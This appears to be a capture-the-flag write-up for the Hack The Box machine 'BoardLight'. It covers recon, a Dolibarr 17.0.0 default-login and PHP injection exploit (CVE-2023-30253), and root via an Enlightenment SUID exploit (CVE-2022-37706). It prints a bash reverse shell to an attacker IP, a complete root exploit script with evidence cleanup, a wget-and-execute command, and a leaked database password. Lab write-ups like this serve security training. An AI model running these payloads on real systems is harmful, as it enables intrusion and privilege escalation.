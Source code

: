 ```yaml
---
description: >-
  Linux | easy | Dolibarr (v17.0.0) CVE-2023-30253 | Mysql | Enlightenment
  CVE-2022-37706
---
```


# BoardLight



## Reconnaissance

```bash
nmap 10.129.11.23 -sV -sC 
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Lets Check the Http server.&#x20;

We can see the domain name in the front page :&#x20;

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets update the Hosts File&#x20;

```bash
echo "10.129.11.23 board.htb" | sudo tee -a /etc/hosts
```

## Enumeration

no usefull directories was found on board.htb with gobuster  so lets try to find some vhost.&#x20;

```bash
ffuf -w /opt/useful/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -mc 200 -fw 6243
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Foothold

so lets add this vhost to our hosts file too .&#x20;

```bash
echo "10.129.11.23 crm.board.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

First things first lets try to enter the default credentials of the version 17.0.0 (admin/admin)

we are in  :&#x20;

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

its time to look for an active CVE on this version.&#x20;

We got one RCE [https://www.swascan.com/security-advisory-dolibarr-17-0-0/](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

So in order to exploit it we have to create a new page and inject a php code. lets try to inject a reverse shell. lets setup our netcat on port 4444 and the inject the following php code in a new page.&#x20;

```php
<?PHP shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'"); ?>
```

```bash
nc -lnvp 4444
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and then when we use the preview button of our new page we trigger the reverse shell :

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

we are now www-data let see if we can find some usefull infos .

by looking on the official website we can see that dolibarr is using mysql so we will look for the conf file of mysql&#x20;

```bash
find /var/www /home -type f -name "conf.php"
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

we did found the password : serverfun2$2023!!

lets use it to our only user in /home directory larissa

we are in and can now grab the user flag !&#x20;

looking for suid who can be exploited for the privilege escalation we can see with&#x20;

```bash
find / -perm -4000 -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

we can find the following exploit  : [https://www.exploit-db.com/exploits/51180](https://www.exploit-db.com/exploits/51180)



```bash
#!/bin/bash
# Exploit CVE-2022-37706 pour Enlightenment v0.25.3
# Auteur: nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Recherche du fichier SUID vulnérable..."
echo "[*] Cela peut prendre quelques secondes..."

# Recherche du fichier SUID vulnérable
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]; then
    echo "[-] Impossible de trouver le fichier SUID vulnérable..."
    echo "[*] Enlightenment doit être installé sur votre système."
    exit 1
fi

echo "[+] Fichier SUID vulnérable trouvé!"
echo "[+] Tentative de création d'un shell root..."
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Bienvenue dans le terrier du lapin :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Appuyez sur une touche pour nettoyer les preuves..."
echo -e "Veuillez patienter... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Fait; Tout est nettoyé ;)"


```

lets upload it and try it :&#x20;

```bash
wget 10.10.14.20:8000/exploit.sh && chmod 777 exploit.sh && ./exploit.sh
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
